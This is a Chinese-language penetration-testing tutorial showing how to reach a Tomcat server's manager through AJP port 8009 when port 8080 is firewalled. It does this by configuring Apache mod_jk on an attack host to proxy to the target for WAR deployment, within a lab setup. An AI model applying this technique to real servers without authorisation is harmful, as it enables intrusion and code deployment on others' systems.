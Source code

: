 # Tomcat的8009端口AJP的利用

Tomcat在安装的时候会有下面的界面，我们通常部署war，用的最多的是默认的8080端口。

可是当8080端口被防火墙封闭的时候，是否还有办法利用呢？

答案是可以的，可以通过AJP的8009端口，下面是step by step。

![2013111512070655523.png](http://drops.javaweb.org/uploads/images/7c0fbe6031e25b41b9e7129e26f4f28b1c2bb59b.jpg)

下面是实验环境：

```
192.168.0.102   装有Tomcat 7的虚拟主机，防火墙封闭8080端口 
192.168.0.103   装有BT5系统的渗透主机 

```

首先nmap扫描，发现8009端口开放

![2013111512075970614.png](http://drops.javaweb.org/uploads/images/3c59de4d6daf52905a68c0b96694a33ad4d7aee1.jpg)

BT5默认apache2是安装的，我们仅需要安装mod-jk

```
root@mickey:~# apt-get install libapache2-mod-jk 

```

jk.conf的配置文件如下：

```
root@mickey:/etc/apache2/mods-available# cat jk.conf  

# Update this path to match your conf directory location 

JkWorkersFile /etc/apache2/jk_workers.properties 

# Where to put jk logs 

# Update this path to match your logs directory location 

JkLogFile /var/log/apache2/mod_jk.log 

# Set the jk log level [debug/error/info] 

JkLogLevel info 

# Select the log format 

JkLogStampFormat "[%a %b %d %H:%M:%S %Y]" 

# JkOptions indicate to send SSL KEY SIZE, 

JkOptions +ForwardKeySize +ForwardURICompat -ForwardDirectories 

# JkRequestLogFormat set the request format 

JkRequestLogFormat "%w %V %T" 

# Shm log file 

JkShmFile /var/log/apache2/jk-runtime-status

```

jk.conf软连接到/etc/apache2/mods-enabled/目录

```
ln -s /etc/apache2/mods-available/jk.conf /etc/apache2/mods-enabled/jk.conf

```

配置 jk_workers.properties

```
root@mickey:/etc/apache2# cat jk_workers.properties  

worker.list=ajp13 

# Set properties for worker named ajp13 to use ajp13 protocol, 

# and run on port 8009 

worker.ajp13.type=ajp13 

worker.ajp13.host=192.168.0.102       <\---|这里是要目标主机的IP地址 

worker.ajp13.port=8009 

worker.ajp13.lbfactor=50 

worker.ajp13.cachesize=10 

worker.ajp13.cache_timeout=600 

worker.ajp13.socket_keepalive=1 

worker.ajp13.socket_timeout=300 

```

默认站点的配置

![2013111512095536811.png](http://drops.javaweb.org/uploads/images/9a4a0c0ebdd81099951c74d22882b5be56514dd5.jpg)

重启apache

```
sudo a2enmod proxy_ajp 

sudo a2enmod proxy_http 

sudo /etc/init.d/apache2 restart 

```

现在apache的mod_jk模块就配置好了，访问192.168.0.103的80端口，就被重定向到192.168.0.102的8009端口了，然后就可以部署war了。

![2013111512103969324.png](http://drops.javaweb.org/uploads/images/514a57ae7088f06790203215a6eb08485c831ef6.jpg)

对渗透有兴趣的朋友，加我多交流 ：）